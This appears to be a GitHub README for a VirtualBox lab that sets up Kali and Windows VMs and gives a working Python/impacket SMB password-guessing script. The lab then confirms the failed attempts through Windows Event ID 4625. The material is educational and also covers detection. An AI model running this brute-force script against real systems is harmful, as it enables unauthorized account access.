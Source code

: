 # SMB Brute Force Script with Python (Internal Network)

This project demonstrates how to launch a brute force attack using the SMB protocol within a virtual internal network. It targets a Windows machine and verifies login failures via Event Viewer logs (Event ID 4625).

---

## About the Project  
This project simulates a brute force attack using Python and the SMB protocol between two virtual machines on the same NAT network in VirtualBox. It sends multiple login attempts to the Windows VM and verifies failed attempts through Event Viewer.

⚠ **This is for educational purposes only. Do not run this on unauthorized systems.**

---

## What is SMB?  
SMB (Server Message Block) is a network protocol mainly used for sharing files, printers, and other resources in a Windows environment. It allows applications to read/write files and request services over a network.

In this project, we exploit the SMB login mechanism by sending multiple password attempts using Python.

---

## Setup Instructions  

### 1. Create a NAT Network  
Open VirtualBox > Tools > Network > NAT Networks.

 
![image](https://github.com/user-attachments/assets/f06ff4b7-acc7-4ae7-87bb-cca64a2bf616)  
![image](https://github.com/user-attachments/assets/283e0613-4033-460d-807c-f51b528c900f)  

---

### 2. Assign NAT Network to VMs  
Assign the newly created NAT network to both Windows and Kali Linux VMs:  
`Settings > Network > Adapter 1 > Attached to: NAT Network.`

  
![image](https://github.com/user-attachments/assets/a4262543-4b56-4168-b37b-a564d8010d68)  
![image](https://github.com/user-attachments/assets/7dd978a3-caaa-4396-ba41-f9f6bea7b599)  

---

### 3. Find IP Addresses  
- On **Windows**, open Command Prompt and run:  
  ```bash
  ipconfig
- On Kali, run:
  ```bash
  ifconfig

Write down both IPs.
Example:

Windows IP: ```10.0.2.4```

Kali IP: ```10.0.2.5```

---
### 4. Enable SMB on Windows
-> Search and open Windows Defender Firewall with Advanced Security.

-> Go to Inbound Rules.

-> Enable the following rules:

     - File and Printer Sharing (SMB-In)

     - File and Printer Sharing (Echo Request - ICMPv4-In)



![image](https://github.com/user-attachments/assets/5255bc56-76c6-4bd4-baa4-2c28708a1c3d)

---
## **SMB Brute Force Script**

Create a Python script (`attack.py`) on Kali Linux:

### **Python Code**
```python
from impacket.smbconnection import SMBConnection
import time

target_ip = input("Enter target IP address: ")
username = input("Enter username to brute force: ")

passwords = [
    "password123", "123456", "admin", "letmein", "qwerty",
    "welcome", "password1", "abc123", "12345678", "admin123"
]

for i, password in enumerate(passwords, 1):
    try:
        print(f"[{i}] Trying password: {password}")
        conn = SMBConnection(target_ip, target_ip)
        conn.login(username, password)
        print(f"\n[✔] SUCCESS: Password is '{password}'")
        break
    except Exception as e:
        print(f"[✘] Failed login with: {password} - {e}")
        time.sleep(1)
else:
    print("\n[!] All 10 password attempts failed.")
```
---
### Running the Attack

On **Kali Linux VM**, open the terminal and run:

```bash
nano attack.py
# Paste the code and save it
python3 attack.py
```
You will be prompted to enter:

* Victim's IP (e.g., 10.0.2.4)

* Username to attack (e.g., Administrator)

Screenshot 

![image](https://github.com/user-attachments/assets/8ef6171d-3846-43b5-bb10-ae28491aed9d)

The script will attempt 10 password logins over SMB.

---
### Verifying the Attack

On **Windows VM**:

1. Open **Event Viewer** from the search.

2. Navigate to: Windows Logs > Security
   
3. Look for **Event ID: 4625**, which indicates logon failures.
 

![image](https://github.com/user-attachments/assets/dcb50530-b8ba-45bc-9cf5-4d567dd37f95)


If the brute force worked, you will see **10 failed logon attempts** matching the passwords used in the script.

---
###  Disclaimer

This script is intended for **educational and ethical hacking purposes only**.  
Do **NOT** use this on systems without explicit permission.




